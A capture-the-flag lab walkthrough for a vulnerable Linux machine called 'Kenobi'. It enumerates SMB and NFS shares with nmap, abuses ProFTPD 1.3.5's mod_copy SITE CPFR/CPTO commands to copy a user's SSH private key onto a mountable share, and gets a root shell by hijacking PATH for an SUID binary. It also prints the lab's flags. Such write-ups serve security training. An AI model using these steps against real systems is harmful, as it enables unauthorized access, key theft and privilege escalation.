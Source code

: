 # KENOBI
Walkthrough on exploiting a Linux machine. Enumerate Samba for shares, manipulate a vulnerable version of proftpd and escalate your privileges with path variable manipulation. 
------------------

This room will cover accessing a Samba share, manipulating a vulnerable version of proftpd to gain initial access and escalate your privileges to root via an SUID binary.

Samba is the standard Windows interoperability suite of programs for Linux and Unix. It allows end users to access and use files, printers and other commonly shared resources on a companies intranet or internet. Its often referred to as a network file system.

Samba is based on the common client/server protocol of Server Message Block (SMB). SMB is developed only for Windows, without Samba, other computer platforms would be isolated from Windows machines, even if they were part of the same network.

SMB has two ports, 445 and 139.

1. Scan the machine with nmap, how many ports are open?
```
nmap -sV <target>
```
2. Using the nmap command above, how many shares have been found?

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <target>
```
3. What mount can we see?
```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount <target>
```
4. What is the version? **ProFtpd**
```
nc <target> 21 #port
```
5. How many exploits are there for the ProFTPd running?
```
searchsploit proftpd 1.3.5
```
From the exploit found, The mod_copy module implements SITE CPFR and SITE CPTO commands, which can be used to copy files/directories from one place to another on the server.
Since we knew the mount directory on target, we copy Kenobi's private key using SITE CPFR and SITE CPTO commands.

```
nc <target> 21 #connect to ftp port
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```
6. Mount the /var/tmp directory to our machine
```
mkdir /mnt/kenobiNFS
mount 10.10.43.114:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
```
Logging in 
```
cp
```
Kenobi user flag
d0b0f3f53b6caa532a83915e19224899

7. Priviledge Escalation with Variable Manipulation
This is achieved by running binaries and escalation by using SUID
What file looks particularly out of the ordinary?
```
/usr/bin/menu
```
8. Run the binary, how many options appear?
3
9. Flag in root.txt
This file runs as the root users privileges, we can manipulate our path gain a root shell.
```
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu

********************
** choice:1
#cat /root/root.txt
177b3cd8562289f37382721c28381f02
```
We copied the /bin/sh shell, called it curl, gave it the correct permissions and then put its location in our path. This meant that when the /usr/bin/menu binary was run, its using our path variable to find the "curl" binary.. Which is actually a version of /usr/sh, as well as this file being run as root it runs our shell as root!